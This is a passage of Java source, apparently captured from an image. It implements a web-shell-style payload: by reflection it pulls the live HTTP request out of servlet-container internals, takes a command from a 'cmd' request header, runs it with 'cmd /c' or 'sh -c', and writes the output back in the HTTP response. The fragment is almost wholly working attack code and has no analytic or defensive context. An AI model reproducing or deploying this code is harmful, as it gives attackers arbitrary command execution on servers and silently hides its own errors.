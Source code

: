 ```java
                        Object underlyingOutput = underlyingOutputField.get(value);
                        Object httpConnection;
                        try{
                            Field _channelField = underlyingOutput.getClass().getDeclaredField("_channel");
                            _channelField.setAccessible(true);
                            httpConnection = _channelField.get(underlyingOutput);
                        }catch (Exception e){
                            Field connectionField = underlyingOutput.getClass().getDeclaredField("this$0");
                            connectionField.setAccessible(true);
                            httpConnection = connectionField.get(underlyingOutput);
                        }
                        Object request = httpConnection.getClass().getMethod("getRequest").invoke(httpConnection);
                        Object response = httpConnection.getClass().getMethod("getResponse").invoke(httpConnection);
                        String cmd = (String) request.getClass().getMethod("getHeader", String.class).invoke(request, "cmd");
                        OutputStream outputStream = (OutputStream)response.getClass().getMethod("getOutputStream").invoke(response);
                        String result = "\n"+exec(cmd);
                        outputStream.write(result.getBytes());
                        outputStream.flush();
                        break thread;
                    }
                }
            }catch (Exception e){}
        }
    }

    public String exec(String cmd){
        if (cmd != null && !"".equals(cmd)) {
            String os = System.getProperty("os.name").toLowerCase();
            cmd = cmd.trim();
            Process process = null;
            String[] executeCmd = null;
            if (os.contains("win")) {
                if (cmd.contains("ping") && !cmd.contains("-n")) {
                    cmd = cmd + " -n 4";
                }
                executeCmd = new String[]{"cmd", "/c", cmd};
            } else {
                if (cmd.contains("ping") && !cmd.contains("-n")) {
                    cmd = cmd + " -t 4";
                }
                executeCmd = new String[]{"sh", "-c", cmd};
            }
            try {
                process = Runtime.getRuntime().exec(executeCmd);
                Scanner s = new Scanner(process.getInputStream()).useDelimiter("\\a");
                String output = s.hasNext() ? s.next() : "";
                s = new Scanner(process.getErrorStream()).useDelimiter("\\a");
                output += s.hasNext()?s.next():"";
                return output;
            } catch (Exception e) {
                e.printStackTrace();
                return e.toString();
            } finally {
                if (process != null) {
                    process.destroy();
                }
            }
```